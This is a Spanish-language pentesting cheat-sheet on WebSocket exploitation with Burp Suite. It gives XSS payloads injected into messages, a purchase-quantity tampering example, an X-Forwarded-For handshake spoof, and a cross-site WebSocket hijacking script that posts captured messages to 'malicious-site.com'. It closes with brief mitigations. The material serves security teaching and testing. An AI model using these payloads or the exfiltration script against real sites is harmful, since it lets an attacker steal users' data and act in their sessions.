 # 🧟‍♂️ Real World Payloads

## WebSockets Exploitation

### Interceptar y Modificar Mensajes WebSocket&#x20;

#### Proceso

1. **Abrir Burp Suite.**
2. Navega a la funcionalidad de la aplicación que utiliza WebSockets.
3. Habilita la interceptación en **Burp Proxy** y captura los mensajes WebSocket.
4. Modifica los mensajes según sea necesario y reenvíalos con el botón **Forward**.

**Ejemplo de Mensaje WebSocket Interceptado**

```json
{"message":"Hola Carlos"}
```

**Mensaje Modificado**

```json
{"message":"<img src=1 onerror='alert(1)'>"}
```

**Resultado**

El mensaje inyectado se muestra en el navegador del usuario objetivo, activando un XSS.

***

### Repetir y Generar Nuevos Mensajes WebSocket

#### Proceso

1. Captura un mensaje WebSocket en **Burp Proxy**.
2. Envía el mensaje a **Burp Repeater**.
3. Modifica el contenido y envíalo repetidamente al servidor.

**Ejemplo**

Mensaje capturado:

```json
{"action":"buy","item_id":123,"quantity":1}
```

Mensaje modificado:

```json
{"action":"buy","item_id":123,"quantity":999}
```

**Resultado Esperado**

Compra masiva de un producto no autorizado.

***

### Manipulación del Handshake WebSocket

#### Proceso

1. Captura el handshake en **Burp Proxy**.
2. Modifica los encabezados antes de reenviar la solicitud.

**Ejemplo de Handshake Modificado**

Solicitud original:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: abc123
Cookie: session=abc123
Upgrade: websocket
```

Modificación:

```http
X-Forwarded-For: 127.0.0.1
```

**Resultado Esperado**

Acceso a funcionalidades restringidas al cambiar el contexto de la conexión.

***

### Manipulación de Mensajes para Explotar Vulnerabilidades

#### Ejemplo: XSS en Mensajes WebSocket

1.  El atacante envía un mensaje WebSocket con contenido malicioso:

    ```json
    {"message":"<script>alert('XSS')</script>"}
    ```
2.  El mensaje se procesa y se muestra sin validación en el navegador del objetivo:

    ```html
    <td><script>alert('XSS')</script></td>
    ```

**Resultado**

El navegador del objetivo ejecuta el código malicioso.

***

### Secuestro de WebSocket entre Sitios

#### Proceso

1. Identifica un handshake WebSocket vulnerable a CSRF.
2. Crea un script en un dominio malicioso para establecer la conexión.

**Ejemplo de Script**

```javascript
var ws = new WebSocket('wss://vulnerable-website.com/chat');
ws.onopen = function() {
    ws.send("READY");
};
ws.onmessage = function(event) {
    fetch('https://malicious-site.com/log', {
        method: 'POST',
        body: event.data
    });
};
```

**Resultado Esperado**

El atacante accede a datos sensibles y puede interactuar con la aplicación en nombre del usuario objetivo.

***

### Mitigaciones

1. **Validación de Entrada:**
   * Implementar sanitización rigurosa en los datos enviados y recibidos.
2. **Protección contra CSRF:**
   * Usa tokens únicos en el handshake WebSocket.
3. **Restricciones de Origen:**
   * Configura políticas estrictas de CORS para conexiones WebSocket.
4. **Autenticación Adicional:**
   * Requiere tokens de sesión adicionales para establecer conexiones seguras.

***

